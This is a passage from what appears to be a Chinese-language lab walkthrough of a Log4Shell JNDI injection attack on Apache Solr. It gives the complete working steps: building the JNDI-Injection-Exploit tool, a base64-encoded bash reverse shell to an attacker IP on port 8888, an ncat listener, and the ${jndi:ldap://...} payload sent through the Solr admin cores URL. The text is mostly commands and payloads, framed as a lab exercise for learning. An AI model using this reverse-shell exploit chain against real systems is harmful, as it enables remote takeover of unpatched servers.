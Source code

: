 看到这里，有人想说，你自己点进去的吧？真不是。

![image-20230728212919487](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728212919487.png)

关闭靶场！！

docker-compose down

### 2.方法二

下载jndi-injection-exploit工具

[https://gitcode.net/mirrors/sayers522/jndi-injection-exploit](https://gitcode.net/mirrors/sayers522/jndi-injection-exploit)

下载完我解压在E盘，切换到jndi-injection-exploit文件夹，cmd出来

mvn clean package -DskipTests //等待环境success

cd target //先备用，后面要用

需要对下面的代码进行base64编码

bash -i >& /dev/tcp/192.168.59.130/8888 0>&1

base64编码：

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU5LjEzMC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}

使用：

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "上面的base64" -A "攻击机IP地址"

实际：

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU5LjEzMC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.59.130"

cd target //备用的，这里用

在target的目录直接放进上面的代码，开始侦听

![image-20230728222325910](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728222325910.png)

然后进入ncat的目录，cmd，侦听8888端口

ncat.exe lvvp 8888

接下来到payload：事实上还有其他payload，可自行baidu学习

浏览器直接访问

[http://靶机:8983/solr/admin/cores?action=${jndi:ldap://攻击机:1389/Exploit}](http://xn--nqvq78h:8983/solr/admin/cores?action=$%7Bjndi:ldap://%E6%94%BB%E5%87%BB%E6%9C%BA:1389/Exploit%7D)

[http://192.168.59.135:8983/solr/admin/cores?action=${jndi:ldap://192.168.59.130:1389/Exploit}](http://192.168.59.135:8983/solr/admin/cores?action=$%7Bjndi:ldap://192.168.59.130:1389/Exploit%7D)

结果：

![image-20230728221557614](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728221557614.png)
